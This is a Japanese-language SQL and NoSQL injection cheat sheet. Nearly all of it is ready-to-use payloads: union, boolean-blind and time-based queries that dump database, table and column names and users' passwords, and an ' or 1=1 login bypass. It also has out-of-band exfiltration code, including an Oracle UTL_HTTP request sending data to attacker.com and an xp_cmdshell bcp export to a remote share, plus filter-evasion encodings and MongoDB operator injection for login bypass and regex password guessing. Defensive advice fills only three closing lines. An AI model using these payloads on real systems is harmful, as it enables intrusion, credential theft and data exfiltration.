 # SQL インジェクション

## Error Based SQLi

画面で Select している列数を探る

```sql
1 union select 1,2,3
```

存在しないデータと Union したら 1,2,3 が表示されるか？（最初の 1 行だけ画面に表示されるパターン）

```sql
0 union select 1,2,3
```

データベース名

```sql
0 union select 1,2,database()
```

DB 内のテーブル名。group_concat で 1 つにまとめてるのがポイント。

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'データベース名'
```

テーブル内の列名

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'テーブル名'
```

全行を 1 セルに表示する

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```

## Blind Based SQLi

DB のデータには興味がなく、ログイン画面をバイパスするような、結果だけを求める場合

```sql
' or 1=1;--
```

## Boolean Based SQLi

データベース名を探索する  
※「このユーザー名は既に存在します」と表示されるような場面で使う

```sql
-- この結果がTrueで
a' UNION SELECT 1,2,3 where database() like '%';--

-- この結果がFalseで
a' UNION SELECT 1,2,3 where database() like 'a%';--

-- この結果がTrueであるとき、sから始まる名前のデータベースが存在することが分かる
-- 2文字目以降も同様に繰り返すことで、全体が判明する
a' UNION SELECT 1,2,3 where database() like 's%';--
```

テーブル名を探索する

```sql
-- Trueであるとき、aから始まるテーブルが存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'データベース名' and table_name like 'a%';--
```

列名を探索する

```sql
-- Trueであるとき、aから始まる列名が存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='データベース名' and TABLE_NAME='テーブル名' and COLUMN_NAME like 'a%';
```

保存されているデータを探索する

```sql
-- Trueであるとき、passwordの1文字目はaであることが分かる
a' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

## Time Based Blind SQLi

Boolean Based と同じだが、結果を画面表示から判別できない場合に、時間遅延で Boolean の判定をする

```sql
-- これがすぐに返り、
a' UNION SELECT SLEEP(5);--

-- これで5秒の遅延が発生する場合、列数が2であることが分かる
a' UNION SELECT SLEEP(5),2;--

-- 遅延が発生する場合、1文字目が4であることが分かる
a' UNION SELECT sleep(5),2 from users where username='admin' and password like '4%';--
```
時間遅延を利用して、Salt、ユーザー名、メールアドレス、パスワードをクラックしているエクスプロイトの例  
https://www.exploit-db.com/exploits/46635

## 帯域外 SQLi

### ファイル出力

```SQL
-- MySQL, MariaDB
-- secure_file_priv設定で出力ディレクトリを限定可能
SELECT sensitive_data FROM users INTO OUTFILE '\\\\<ip>\\logs\\out.txt';

-- MS SQL Server
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\<ip>\logs\out.txt" -c -T';
```

### HTTP
```SQL
-- Oracle  see UTL_FILE
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```


## フィルター回避
```text
# URLエンコード
' OR 1=1-- -> %27%20OR%201%3D1--+

# 16進エンコード
name = 'admin' -> name = 0x61646d696e

# Unicodeエンコード
admin -> \u0061\u0064\u006d\u0069\u006e

# CONCAT
admin -> CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e)
CHAR(0x61,0x64,0x6D,0x69,0x6E)

# スペースを置き換え
SELECT/**//*FROM/**/users/**/WHERE/**/name/**/='admin'
SELECT\t*\tFROM\tusers\tWHERE\tname\t=\t'admin'
%09 (水平タブ)、%0A (改行)、%0C (フォームフィード)、%0D (復帰)、%A0 (改行なしスペース)

# キーワード回避
SELEcT * FROM users
SE/**/LECT * FROM/**/users

# 論理演算子
AND -> &&
OR -> ||
```

## インジェクションリスト
https://github.com/payloadbox/sql-injection-payload-list/raw/refs/heads/master/Intruder/exploit/Auth_Bypass.txt

intruder 等で使って弱点を探る。

## NoSQL

### 演算子インジェクション

#### 認証バイパス
```php
# このクエリを想定したとき、
$user = $_POST['user'];
$pass = $_POST['pass'];
$q = new MongoDB\Driver\Query(['username'=>$user, 'password'=>$pass]);

# このポストデータを渡すと、
user[$ne]=xxxx&pass[$ne]=yyyy

# この連想配列として解釈されるため、
$_POST = [
    'user' => ['$ne' => 'xxxx'],
    'pass' => ['$ne' => 'yyyy']
];

# すべてのデータを抽出するクエリになる
$q = new MongoDB\Driver\Query(['username'=>['$ne' => 'xxx'], 'password'=>['$ne' => 'yyy']]);

# admin, user1 以外のユーザー
user[$nin][]=admin&user[$nin][]=user1&pass[$ne]=yyyy

$q = new MongoDB\Driver\Query(['username'=>['$nin' => ['admin', 'user1']], 'password'=>['$ne' => 'yyy']]);
```

#### パスワード推測
```php
# これでログインできるなら、パスワードは5文字
user=admin&pass[$regex]=^.{5}$

# これでログインできるなら、1文字目はc
user=admin&pass[$regex]=^c....$

```

## セキュリティ

- フレームワークの Prepared Statements を使用する
- 入力検証
- ユーザー入力のエスケープ
